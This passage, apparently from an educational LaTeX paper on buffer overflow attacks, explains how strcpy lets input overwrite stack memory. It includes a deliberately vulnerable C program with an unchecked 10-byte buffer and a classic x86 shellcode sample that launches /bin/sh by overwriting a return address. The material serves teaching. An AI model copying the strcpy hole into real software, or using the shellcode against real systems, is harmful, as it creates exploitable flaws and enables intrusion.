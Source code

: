 \subsubsection{Using \texttt{strcpy}}

\begin{figure}
\begin{lstlisting}
#include <string.h>
#include <stdio.h> 

void foo(const char* input)
{
    char buf[10];

    printf("My stack looks like:\n%p\n%p\n%p\n%p\n%p\n% p\n\n");

    strcpy(buf, input);
    printf("%s\n", buf);

    printf("Now the stack looks like:\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
}

void bar(void)
{
    printf("Augh! I've been hacked!\n");
}

int main(int argc, char* argv[])
{
    //Blatant cheating to make life easier on myself
    printf("Address of foo = %p\n", foo);
    printf("Address of bar = %p\n", bar);
    if (argc != 2) 
    {
        printf("Please supply a string as an argument!\n");
        return -1;
    } 
    foo(argv[1]);
    return 0;
}
\end{lstlisting}
\caption{An example of using buffer overflow to overwrite stack memory.}
\label{fig:strcpy}
\end{figure}

The most famous example of this is the use of \texttt{strcpy} in the C Standard Library. The implementation of \texttt{strcpy} is to copy each character until it finds a \texttt{0} in the source string, which is used to denote the end of the string. This function easily allows users to overwrite the stack memory, as referenced in figure \ref{fig:strcpy}. \cite{buffer_overflow_attack_2004}

\subsubsection{Launching a Shell}

\begin{figure}
\begin{lstlisting}
char shellcode[] =
  "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
  "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
  "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";


void main() {
  int *ret;


  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
\end{lstlisting}
\caption{The contents of \texttt{shellcode} are executed when the return address of the main method is manipulated.}
\label{fig:shellcode}
\end{figure}


